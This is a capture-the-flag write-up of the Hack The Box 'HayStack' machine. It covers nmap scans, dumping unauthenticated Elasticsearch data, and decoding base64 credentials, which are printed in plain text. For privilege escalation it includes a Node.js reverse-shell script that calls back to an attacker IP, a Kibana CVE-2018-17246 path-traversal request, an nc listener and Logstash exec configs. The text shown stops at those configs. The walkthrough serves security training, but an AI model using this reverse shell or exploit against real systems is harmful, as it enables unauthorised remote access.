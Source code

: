 # HayStack

## Introduction

HayStack is an easy box in hack the box. But it does isn't easy at all. It's annoying to find the user and password in the messy Spanish. For the root, you should have a basic understanding of ELK. Hence, the box is quite fresh in htb.

## Information Enumeration

As usual, nmap is utilized to detect detailed ports and services.

```
# Nmap 7.70 scan initiated Sun Jun 30 01:10:53 2019 as: nmap -sT -p- --min-rate 1500 -oN ports 10.10.10.115
Nmap scan report for 10.10.10.115
Host is up (0.27s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9200/tcp open  wap-wsp
```

Then detect the detailed services:

```
# Nmap 7.70 scan initiated Sun Jun 30 01:13:05 2019 as: nmap -sC -sV -p22,80,9200 -oN services 10.10.10.115
Nmap scan report for 10.10.10.115
Host is up (0.38s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: 502 Bad Gateway
```

For port 80, we find nothing except a picture of needle. Exiftool is used to analyze. But nothing intersting found. Try to use gobuster to brute force the directory, but have not found any userful directories.

![eDD780.png](https://s2.ax1x.com/2019/08/03/eDD780.png)

For port 9200, nmap seems to be failed to detext. But this port should be familar to elasticserarch users. Elasticsearch is a popular search database recent years. There are something interesting in elasticsearch. We will talk about this later.

![eDrFKO.png](https://s2.ax1x.com/2019/08/03/eDrFKO.png)

## Exploit

In the above, we have talked about the ports. The elasticsearch should be the point. Try to obtain the data of elasticsearch. There is no authentication for elasticsearch in default. Hence, we can read the data of elasticsearh. In the begining, I have tried to use kibana to analyze the data. Kinaba is one component of ELK, which is a powerful tool to analyze the data of elasticsearch. And it's easy to use. Just download the [files](https://www.elastic.co/cn/downloads/past-releases/kibana-6-4-2), then decompress the files. There is only one step to finish before run kibana. Modify `elasricsearch.url` in `config.yml`, it should be configured to `10.10.10.115:9200`. Then you can run kibana directly.

When you access to kibana, you will find two indexes: `bank` and `quotes`. The `bank` seems to be data of bank users information, which seems not to be useful. For index `quotes`, we have found nothing but quote of Spanish. To be honest, Spanish is really messy for me to read. And I cannot find anything interesting. Kibana is useful for query specific feild. But `quotes` seems to be an article. So I decide to dump all the data of `quotes`. 

[elasticsearh-dump](https://github.com/taskrabbit/elasticsearch-dump) is useful to dump the data from elasticsearch. Firstly, install the tool by `npm install elasticdump -g`. Then dump the data by: 

```
elasticdump \
  --input=http://production.es.com:9200/quotes \
  --output=quptes.json \
  --type=data
```

The result will be json file of a list of objects consist of some keys. The most important is the quote in the result. But the json is still not convinient to read. And the id may be the sequence of quotes. So, I decide to write a script to order the quotes by id, and join all the quotes together.

```python
import json
result = {}
txt = ""
with open("quotes.json") as f:
  data = f.readlines()
  for ele in data:
    obj = json.loads(ele)
    id = int(obj["_id"])
    result[id] = obj["_source"]["quote"]
  for i in sorted(result.keys()):
    print(i)
    txt = txt + result[i] + "\n\n"
with open("result.md", "w") as f1:
  f1.write(txt)
```

Now, I have the result of quotes. And it's easy to read. I place this file in github. When I read this file by Chrome, Chrome can help me translate this artcile. So, it's easier to find the special things in the artcile. I have found two interesting strings in the article.

```
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg
```

```
Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

If you traslate the two stings into Enlish respectively.

```
I have to save the password for the machine: dXNlcjogc2VjdXJpdHkg
```

```
This key cannot be lost, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

The end of the strings is encoded by base64. When decoded, we can find the username and password. Then you can ssh by the username and password. 

![erZrTA.png](https://s2.ax1x.com/2019/08/03/erZrTA.png)

To be honest, I really don't like the user of the box. But it does works as the key word: you have to find a needle in haystack.

## PrivEsc

If you look around the box, you will find the box is installed with ELK. You can find kibana and logstash in the box. If you google `kibana exploit`. You will find [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246) in Github. It has detailed illustraed the ways to exploit.

However, there is a problem that the kibnana service is only running in local. So you cannot access kibana service externally. There is a way to utilize ssh to redirect the network stream.

```
ssh 5601:localhost:5601 security@10.10.10.115
```

Then, we can access to the kibana service in 10.10.10.115 by access to `localhost:5601`. Place the `server.js` in tmp directory of taget machine.

```
// server.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "10.10.16.61", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Then we can implemented by burp, remember to set up nc listener `nc -lvnp 1234`

```
GET /api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/server.jssudo -l HTTP/1.1
Host: localhost:5601
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:5601/app/kibana
content-type: application/json
kbn-version: 6.4.2
origin: http://localhost:5601
Connection: close
```

Wait for a while, then we are kibana.

[![erlWZT.png](https://s2.ax1x.com/2019/08/03/erlWZT.png)](https://imgchr.com/i/erlWZT)

But we are still not root! Don't be upset. Let's move on. If we look at the logstash in the machine carefully, we will find something interesting. We find the the group `kibana` has write permission of conf.d of logstash.

```
ls -lah
total 52K
drwxr-xr-x.  3 root   root    183 jun 18 22:15 .
drwxr-xr-x. 83 root   root   8,0K jun 24 05:44 ..
drwxrwxr-x.  2 root   kibana   62 jun 24 08:12 conf.d
-rw-r--r--.  1 root   kibana 1,9K nov 28  2018 jvm.options
-rw-r--r--.  1 root   kibana 4,4K sep 26  2018 log4j2.properties
-rw-r--r--.  1 root   kibana  342 sep 26  2018 logstash-sample.conf
-rw-r--r--.  1 root   kibana 8,0K ene 23  2019 logstash.yml
-rw-r--r--.  1 root   kibana 8,0K sep 26  2018 logstash.yml.rpmnew
-rw-r--r--.  1 root   kibana  285 sep 26  2018 pipelines.yml
-rw-------.  1 kibana kibana 1,7K dic 10  2018 startup.option
```

`conf.d` is the config directory of logstash consists of three files in genenal. Take a deep look into the directory, you'll a find an interesting thing. There is a command execute in output.conf. If you have basic knowledge of logstash, you should know the function of the three files. `input.conf` is used to config the data source. `filter.conf` is used to process the data, which  is usually combined with grok. `output.conf` is used to output the processed data. We can find there is a exec in the `output.conf`.

So the exploit is very clear. Create a file in `/opt/kibana/` whose name begins with `logstah_`. And make sure the content in the file can be parsed by grok correctly. Then the command can be executed successfully.

**filter.conf**

```
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

**input.conf**

```
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

**output.conf**

```
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

pass: spanish.is.keyuser: security 
